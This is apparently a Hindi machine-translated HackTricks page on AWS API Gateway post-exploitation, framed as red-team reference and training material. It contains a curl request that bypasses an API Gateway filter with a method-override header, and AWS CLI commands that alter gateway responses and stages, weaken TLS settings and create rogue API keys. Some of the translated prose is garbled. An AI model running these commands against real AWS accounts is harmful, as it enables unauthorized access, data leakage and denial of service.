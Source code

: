 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
&#x20;एडबाइस और प्रैक्टिस AWS हैकिंग:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
&#x20;एडबाइस और प्रैक्टिस GCP हैकिंग: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सब्सक्रिप्शन योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 पर **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>
{% endhint %}

## API Gateway

अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### अप्रकटित API तक पहुंच

आप एक एंडपॉइंट बना सकते हैं [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) सेवा `com.amazonaws.us-east-1.execute-api` के साथ, एंडपॉइंट को उस नेटवर्क में उजागर कर सकते हैं जहाँ आपका पहुंच है (संभावित रूप से एक EC2 मशीन के माध्यम से) और सभी कनेक्शन की अनुमति देने वाला एक सुरक्षा समूह का निर्धारण कर सकते हैं।\
फिर, EC2 मशीन से आप एंडपॉइंट तक पहुंच सकेंगे और इसलिए पहले अनावृत्त API को कॉल कर सकेंगे जो पहले अनावृत्त नहीं था।

### अनुरोध बॉडी पासथ्रू उमार्ग को छलना

यह तकनीक [**इस सीटीएफ व्राइटअप में**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp) में पाई गई थी।

[**AWS दस्तावेज़ीकरण**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) में इंडिकेट किया गया है कि `PassthroughBehavior` खंड में, डिफ़ॉल्ट रूप से, मान **`WHEN_NO_MATCH`** , जब अनुरोध के **Content-Type** हेडर की जाँच की जाती है, तो अनुरोध को किसी भी परिवर्तन के बिना पीछे की ओर पास करेगा।

इसलिए, सीटीएफ में API गेटवे में एक एकीकरण टेम्पलेट था जो **जब एक अनुरोध `Content-Type: application/json` के साथ भेजा गया था, तो झंडा बाहर निकालने से रोक रहा था**:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

हालांकि, **`Content-type: text/json`** के साथ एक अनुरोध भेजने से वह फ़िल्टर को रोका जा सकता था।&#x20;

अंत में, API गेटवे केवल `Get` और `Options` की अनुमति दे रहा था, इसलिए एक पोस्ट अनुरोध भेजकर किसी भी सीमा के बिना एक अर्बिट्रे dynamoDB क्वेरी भेजना संभव था जिसमें क्वेरी बॉडी में हो और हेडर `X-HTTP-Method-Override: GET` का उपयोग करें: 

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### उपयोग योजना डीओएस

**जांच** खंड में आप देख सकते हैं कि **कैसे कुंजियों की उपयोग योजना प्राप्त** की जा सकती है। यदि आपके पास कुंजी है और यह **मासिक** X उपयोगों से **सीमित** है, तो आप **इसका उपयोग करके डीओएस** का कारण बना सकते हैं।

**एपीआई कुंजी** को सिर्फ **एक** **HTTP हेडर** में **शामिल** किया जाना चाहिए जिसे **`x-api-key`** कहा जाता है।

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

एक हमलावर जिसके पास अनुमतियाँ `apigateway:UpdateGatewayResponse` और `apigateway:CreateDeployment` हैं, **मौजूदा गेटवे प्रतिक्रिया में सामान्य हेडर या प्रतिक्रिया टेम्पलेट शामिल करने के लिए संशोधित कर सकता है जो संवेदनशील जानकारी लीक करता है या दुराचारी स्क्रिप्ट का निष्पादन कर सकता है।

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**संभावित प्रभाव**: संवेदनशील जानकारी का लीक हो सकता है, दुरुपयोगी स्क्रिप्ट का निषेध या API संसाधनों तक अनधिकृत पहुंच।

{% hint style="info" %}
जरूरत परीक्षण की
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

एक हमलावर जिसके पास `apigateway:UpdateStage` और `apigateway:CreateDeployment` अनुमतियाँ हैं, **मौजूदा API गेटवे स्टेज को संदर्भित ट्रैफिक को एक विभिन्न स्टेज पर पुनर्निर्देशित करने या कैशिंग सेटिंग्स को बदलकर कैश किए गए डेटा तक अनधिकृत पहुंच प्राप्त कर सकता है**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**संभावित प्रभाव**: कैश किए गए डेटा तक अनधिकृत पहुंच, API ट्रैफिक को व्यवधानित या अंतर्दृष्टि से रोकना।

{% hint style="info" %}
जरूरत है टेस्टिंग की
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

एक हमलावर जिसके पास `apigateway:PutMethodResponse` और `apigateway:CreateDeployment` अनुमतियाँ हैं, **मौजूदा API गेटवे REST API विधि के विधि प्रतिक्रिया को संशोधित कर सकता है ताकि वहाँ गोपनीय जानकारी लीक करने वाले कस्टम हेडर या प्रतिक्रिया टेम्पलेट शामिल किया जा सके या जानकारी लीक कर सकते हैं या दुर्भाग्यपूर्ण स्क्रिप्ट्स को क्रियान्वित कर सकते हैं**।
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**संभावित प्रभाव**: संवेदनशील जानकारी का लीक, दुरुपयोगी स्क्रिप्ट का निषेध या API संसाधनों तक अनधिकृत पहुंच।

{% hint style="info" %}
जांच की आवश्यकता
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

एक हमलावर जिसके पास `apigateway:UpdateRestApi` और `apigateway:CreateDeployment` अनुमतियाँ हैं, **API गेटवे REST API सेटिंग को संशोधित कर सकता है ताकि लॉगिंग को अक्षम करें या न्यूनतम TLS संस्करण को बदलें, जिससे API की सुरक्षा कमजोर हो सकती है**।
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**संभावित प्रभाव**: API की सुरक्षा को कमजोर करना, अनधिकृत पहुंच की अनुमति देना या संवेदनशील जानकारी को उजागर करना।

{% hint style="info" %}
जांच की आवश्यकता है
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

एक हमलावर जिसके पास `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` और `apigateway:CreateUsagePlanKey` अनुमतियाँ हैं, **नए API कुंजियाँ बना सकता है, उन्हें उपयोग योजनाओं से जोड़ सकता है, और फिर इन कुंजियों का अनधिकृत पहुंच के लिए उपयोग कर सकता है**।
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**संभावित प्रभाव**: API संसाधनों तक अनधिकृत पहुंच, सुरक्षा नियंत्रणों को छलकर जाना।

{% hint style="info" %}
जाँच की आवश्यकता
{% endhint %}

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना** चाहते हैं या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सदस्यता योजनाएँ देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>
